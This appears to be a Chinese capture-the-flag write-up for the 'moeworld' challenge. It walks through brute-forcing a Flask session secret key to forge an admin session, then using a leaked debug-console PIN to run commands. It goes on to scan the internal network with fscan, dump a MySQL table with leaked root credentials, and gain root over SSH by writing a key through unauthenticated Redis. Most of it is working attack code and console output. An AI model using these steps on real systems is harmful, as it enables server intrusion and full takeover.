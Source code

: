 # moeworld

首先爆破secret key
```py
import itertools
import zlib
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import base64_decode
#https://github.com/noraj/flask-session-cookie-manager
class MockApp(object):
	def __init__(self, secret_key):
		self.secret_key = secret_key
def encode(secret_key, session_cookie_structure):
	try:
		app = MockApp(secret_key)
		session_cookie_structure = session_cookie_structure
		si = SecureCookieSessionInterface()
		s = si.get_signing_serializer(app)
		return s.dumps(session_cookie_structure)
	except Exception as e:
		return "[Encoding error] {}".format(e)
def decode(session_cookie_value, secret_key=None):
	if (secret_key == None):
		compressed = False
		payload = session_cookie_value
		if payload.startswith('.'):
			compressed = True
			payload = payload[1:]
		data = payload.split(".")[0]
		data = base64_decode(data)
		if compressed:
			data = zlib.decompress(data)
		return data
	else:
		app = MockApp(secret_key)
		si = SecureCookieSessionInterface()
		s = si.get_signing_serializer(app)
		return s.loads(session_cookie_value)
cookie = ""
for c in itertools.product(range(0, 256), repeat=2):
	k = bytes(c).hex()
	try:
		print(decode(cookie, "This-random-secretKey-you-can't-get"+k))
	except Exception as e:
		pass
	else:
		print(k)
		break
```
secret key是`This-random-secretKey-you-can't-get06f0`,有了secret key就能自己修改session为admin。admin的private留言说pin码904-474-531，所以去到http://47.115.201.35:8000/console ，输入pin码则获得console

执行系统命令：
```py
import subprocess
subprocess.check_output(['ls','/'])
subprocess.check_output(['cat','/flag'])
```
获得第一部分flag：`moectf{Information-leakage-Is-dangerous!`

还有个readme，python decode后看到提示
```
恭喜你通过外网渗透拿下了本台服务器的权限
接下来，你需要尝试内网渗透，本服务器的/app/tools目录下内置了fscan
你需要了解它的基本用法，然后扫描内网的ip段
如果你进行了正确的操作，会得到类似下面的结果
10.1.11.11:22 open
10.1.23.21:8080 open
10.1.23.23:9000 open
将你得到的若干个端口号从小到大排序并以 - 分割，这一串即为hint.zip压缩包的密码（本例中，密码为：22-8080-9000）
注意：请忽略掉xx.xx.xx.1，例如扫出三个ip 192.168.0.1 192.168.0.2 192.168.0.3 ，请忽略掉有关192.168.0.1的所有结果！此为出题人服务器上的其它正常服务
对密码有疑问随时咨询出题人
```
提示用fscan，看一下help
```py
subprocess.check_output("/app/tools/fscan --help",stderr=subprocess.STDOUT,shell=True)
```
是这个工具： https://github.com/shadow1ng/fscan

看一下本机内网ip, 参考 https://blog.csdn.net/kuanggudejimo/article/details/99454185
```py
import socket;s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM);s.connect(('8.8.8.8', 80));ip = s.getsockname()[0];print(ip)
```
得到ip为`172.21.0.2`。扫描：
```py
subprocess.check_output("/app/tools/fscan -h 127.21.0.2/24",stderr=subprocess.STDOUT,shell=True)
```
得到hint.zip密码： 22-3306-6379-8080

然后不要卡在怎么配置frp进行内网穿透，那个要自己开vps，或者要有个自己的公网ip。穿透只是辅助效果，帮助我们渗透更加方便，不配置直接用python console也是可以的。也不要想用ngrok免费版，免费版只能转发一个端口，而穿透至少要两个端口。直接去搞mysql：
```py
subprocess.check_output("cat dataSql.py",stderr=subprocess.STDOUT,shell=True)
```
得到sql数据库交互的源码，里面有用户名和密码。连接:
```py
db = pymysql.connect(host="mysql",port=3306,user="root",passwd="The_P0sswOrD_Y0u_Nev3r_Kn0w",database="messageboard",charset='utf8')
```
查内容：
```py
cursor=db.cursor()
cursor.execute("select database()")
cursor.fetchall()
(('messageboard'))
>>> cursor.execute("select(group_concat(table_name))from(information_schema.tables)where(table_schema)='messageboard'")
1
>>> cursor.fetchall()
(('flag,message,users'))
>>> cursor.execute("select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')")
1
>>> cursor.fetchall()
(('flag'))
>>> cursor.execute("select(group_concat(flag))from(flag)")
1
>>> cursor.fetchall()
(('-Are-YOu-myS0L-MasT3r?-'))
```
最后是redis。用python装个redis模块（不知道为啥apt-get install装不了？）：
```py
subprocess.check_output("pip3 install redis",stderr=subprocess.STDOUT,shell=True)
```
然后连接
```py
r = redis.Redis(host='172.20.0.3', port=6379, db=0)
r.info()
```
从info中得知redis存在未授权访问漏洞。根据 https://_thorns.gitbooks.io/sec/content/redis_getshellzi_dong_hua_shi_jian_zhi_ssh_key.html 往root写ssh key。public_key和privkey利用`ssh-keygen -t rsa`生成
```py
>>> r.set('aaaaaaaaaa', '\n\n' + public_key + '\n\n')
True
>>> r.config_set('dir', '/root/.ssh')
True
>>> r.config_set('dbfilename', 'authorized_keys')
True
>>> r.save()
True
```
参考 https://www.cnblogs.com/wongbingming/articles/12384764.html ，安装paramiko进行ssh连接
```py
subprocess.check_output("pip3 install paramiko",stderr=subprocess.STDOUT,shell=True)
import paramiko
>>> pkey = paramiko.RSAKey.from_private_key_file('privkey', password='')
>>> trans = paramiko.Transport(('172.20.0.3', 22))
>>> trans.connect(username='root', pkey=pkey)
>>> ssh = paramiko.SSHClient()
>>> ssh._transport = trans
>>> stdin, stdout, stderr = ssh.exec_command('ls /')
>>> print(stdout.read().decode())
>>> stdin, stdout, stderr = ssh.exec_command('cat /flag')
>>> print(stdout.read().decode())
```
## Flag
> moectf{Information-leakage-Is-dangerous!-Are-YOu-myS0L-MasT3r?-P@sSW0Rd-F0r-redis-Is-NeceSsary}